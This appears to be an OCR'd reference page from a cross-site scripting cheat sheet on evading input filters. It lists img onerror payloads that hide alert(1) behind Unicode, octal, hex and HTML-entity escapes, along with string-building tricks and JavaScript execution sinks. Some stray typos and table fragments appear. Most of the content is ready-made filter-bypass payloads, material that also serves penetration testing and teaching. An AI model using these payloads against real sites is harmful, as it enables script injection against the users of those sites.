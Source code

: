 IF the filtered vector is within a string, in addition to Unicode, there are multiple escapses we may adopt:
```js
<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>     # octal escape
<img src=x onerror="eval('\x61lert(1)')"/>     # hexa escape

<img src=x onerror="eval('&#x0061;lert(1)')"/> # hexa numeric char reference
<img src=x onerror="eval('&#97;lert(1)')"/>    # decimal NCR
<img src=x onerror="eval('\a\l\ert(1\)')"/>    # superfluous escapes chars

<img src=x onerror="eval('\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>  '
# All chars escaping can stay together.
```

### Contructing String
Javascript jas several functions useful to create string:
```js
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
177985081..toString(36)
```

### Execution Sinks
- Technically, functions that parse string as JavaScript code are called execution sinks, and JavaScript offers several alternatives.

Some Sinks:
```js
setTimeout("JSCode") //all browsers
setInterval("JSCode") //all browsers
setImmediate("JSCode") //IE 10+
Function("JSCode") //all browsers

# moreover: https://code.google.com/p/domxsswiki/wiki/ExecutionSinks
```

Variation of the Function sink:
```js
[].constructor.constructor(alert(1))
```

|object | array   | function  | XSS vector|


### Pseudo-protocols
**javascript:** is an unofficional URI scheme, commonly referred as a pseudo-protocol.

- javascript followerd by (:) is usually blocked

Example:
```js
<a href="javascript:alert(1)"/>    " //blocked
# javascript: is not needed on event handlers; SO, we should avoid using it.
```
